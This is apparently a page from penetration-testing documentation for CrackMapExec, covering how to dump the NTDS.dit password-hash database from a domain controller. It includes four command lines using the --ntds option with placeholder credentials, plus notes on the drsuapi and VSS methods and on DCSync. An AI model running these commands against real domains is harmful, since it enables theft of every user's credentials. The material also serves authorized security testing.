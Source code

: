 # Dump NTDS.dit

{% hint style="danger" %}
Requires Domain Admin or Local Admin Priviledges on target Domain Controller
{% endhint %}

```
2 methods are available:   
(default) 	drsuapi -  Uses drsuapi RPC interface create a handle, trigger replication, and combined with   
						additional drsuapi calls to convert the resultant linked-lists into readable format  
			vss - Uses the Volume Shadow copy Service  
```

```
#~ cme smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --ntds
#~ cme smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --ntds --users
#~ cme smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --ntds --users --enabled
#~ cme smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --ntds vss
```

<figure><img src="../../../../.gitbook/assets/image (37).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
You can also DCSYNC with the computer account of the DC
{% endhint %}
